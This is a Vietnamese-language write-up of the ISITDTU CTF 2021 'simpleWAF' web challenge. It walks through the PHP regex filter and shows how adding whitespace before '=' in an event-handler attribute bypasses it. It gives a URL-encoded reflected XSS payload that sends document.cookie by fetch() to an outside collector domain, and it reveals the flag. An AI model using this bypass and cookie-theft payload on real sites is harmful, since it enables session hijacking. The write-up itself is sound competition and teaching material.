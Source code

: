 # simpleWAF


[Source](https://github.com/antoinenguyen-09/All_CTF_write-ups/tree/master/ISITDTU%20CTF/2021/web/simpleWAF/source)


Đây là challenge web đầu và cũng là dễ nhất trong 4 challenge của ISITDTU CTF năm nay. Dù vậy vì một số lí do ngu người nên mất cả buối sáng mình mới solve đc bài này.

### 1. Initial reconnaissance:

![image](https://user-images.githubusercontent.com/61876488/143764818-b63dd063-04cf-4de2-afe7-6fa69f0d859c.png)

- Nhìn qua challenge này cho hẳn source với rất nhiều regex, cùng với một cái url parameter to tướng ở phía trên tên là **XSS** thì chắc chắn hướng đi sẽ là từ [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) lấy cookie của client. 
- Đề bài còn cho biết: `if you can steal cookie, bot will check it at here`, nghĩa là sau khi exploit lấy cookie thành công từ site chính rồi, chúng ta sẽ submit payload cho con bot dưới đây check xem có hợp lệ và nếu đúng nó sẽ trả cho chúng ta flag.

![image](https://user-images.githubusercontent.com/61876488/143770699-6dc9cc9b-9879-4be6-a6ca-186c8bac69c4.png)

### 2. Analyze and find the vulnerabilities:

- Đầu tiên, website sẽ lấy ra string từ url parameter `xss` rồi check xem nó đã đc url encode chuẩn chưa (thông qua vòng while). Sau đó nếu như trong string đó có các [HTML entities](https://www.w3schools.com/html/html_entities.asp) thì nó sẽ trở về dạng HTML tag bình thường thông qua hàm `html_entity_decode`.

```php
$xss = $_GET['xss'];

$tmpxss = $xss;
do
{
    $xss = $tmpxss;
    $tmpxss = urldecode($xss);
} while($tmpxss != $xss);

$xss = html_entity_decode($xss);
```

- Tiếp theo là phần phải đụng cơ tay một tí là bypass regex. Nhìn qua ta có thể thấy regex sẽ filter các string như `on<gì đó>=`, `src=`, `href=`, `<script`, `<object` nếu nó xuất hiện trong biến **$xss** ở trên. Nếu có xuất hiện sẽ in ra `WAF block`, nếu không thì payload là hợp lệ và sẽ được in ra

```php 
$valid = true;
if(preg_match("/\<\w+.*on\w+=.*/i", $xss))
{
    $valid = false;
}

if(preg_match("/\<\w+.*src=.*/i", $xss))
{
    $valid = false;
}

if(preg_match("/\<\w+.*href=.*/i", $xss))
{
    $valid = false;
}

if(preg_match("/\<script.*/i", $xss))
{
    $valid = false;
}

if(preg_match("/\<object.*/i", $xss))
{
        $valid = false;
}

if($valid == true)
{
    echo $xss;
}
else
{
    echo "WAF block";
}
```

- Các string như `on<gì đó>=`, `src=`, `href=`, `<script`, `<object` thường xuất hiện trong các xss payload, giờ đã bị ban. Vậy thì làm sao để nó hợp lệ? Chợt nhận ra thằng web này nó chỉ cấm mình dùng `on<gì đó>=` chứ không cấm mình dùng `on<gì đó> =` (thêm 1 dấu cách vào, thâm chí muốn chắc kèo thêm kí tự `\n` vào cũng được luôn). Thí dụ chúng ta có thể xài một cái payload như này:

![image](https://user-images.githubusercontent.com/61876488/143773209-5d07eee5-5b17-498b-ad75-e9ea595ab3b1.png)

- Dùng payload `w` rồi thử alert một cái chơi:

![image](https://user-images.githubusercontent.com/61876488/143773362-d7eec521-a23b-4005-9ab5-2095e14b2627.png)

Amazing, giờ viết script để gửi cookie về domain của mình thôi!

### 3. Exploit and get flag:

- Ý tưởng về việc steal cookie nó sẽ tóm gọn như này (sủ dụng [fetch API](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch)): 

```javascript
fetch('<URL muốn gửi đến>', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
```
- Nhét nó vào payload để chạy trên web này nó sẽ thành như sau:

```
%3Cimg%20src/%20%0Donerror%0D%20=%22fetch(%27<URL muốn gửi đến>%27,%20{method:%20%27POST%27,%20mode:%20%27no-cors%27%20,body:document.cookie})%22%3E
```

- Ví dụ ta có url muốn gửi đến là `https://jxkku1rri7bor6fs1hjaeu4yyp4fs4.burpcollaborator.net` (sử dụng [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) để tạo các domain như này, đồng thời bắt các request gửi về khi payload chạy):

![image](https://user-images.githubusercontent.com/61876488/143773913-d5425ee3-7ba7-4b17-903e-c1745f5c11cb.png)

- Tiếp theo mình sẽ submit cái nguyên si cái payload này cho con bot để lấy flag và tiếp tục sử dụng Burp Collaborator client để bắt request, và đây là nơi cái ngu bắt đầu :).

![image](https://user-images.githubusercontent.com/61876488/143774022-ae572395-e947-444b-85b6-4a4afc68f653.png)
 
- Không hiểu bằng một cách magic nào mà lần này nó chỉ gửi mỗi DNS request đến Burp Collaborator client, trong khi thứ ta đang cần là một HTTP request như ảnh trên :(. Mình đã tốn thời gian cho một việc ngu ngốc là gửi đi gửi lại dù biết nó sẽ sai, cho đến khi được người ra đề là anh "0xd0ff9" gõ đầu mới ngộ ra:

![image](https://user-images.githubusercontent.com/61876488/143774177-8f380b14-b5d1-44b8-ab92-56f52b32cda0.png)

Có vẻ có vấn đề gì đó với policy của Chrome phiên bản mới nhất, sau một hồi search gg và hỏi khắp nới thì t biết được policy của chrome mới nhất ko cho phép redirect qua http, do đó Burp Collaborator client sẽ không bắt được HTTP. Nhưng mà trước khi biết được điều này thì t đã mò đại được cái webhook hay ho https://requestcatcher.com/ này để bắt request, và nó đã hoạt động :D

![image](https://user-images.githubusercontent.com/61876488/143775278-0fd6ae7b-b568-4aed-aacd-4040af89a807.png)

![image](https://user-images.githubusercontent.com/61876488/143775285-b2183718-ad8e-4ba4-b72d-0bf8a88794db.png)

Flag: `ISITDTU{64858f4560416acff930bf673b5046911947a26e}`





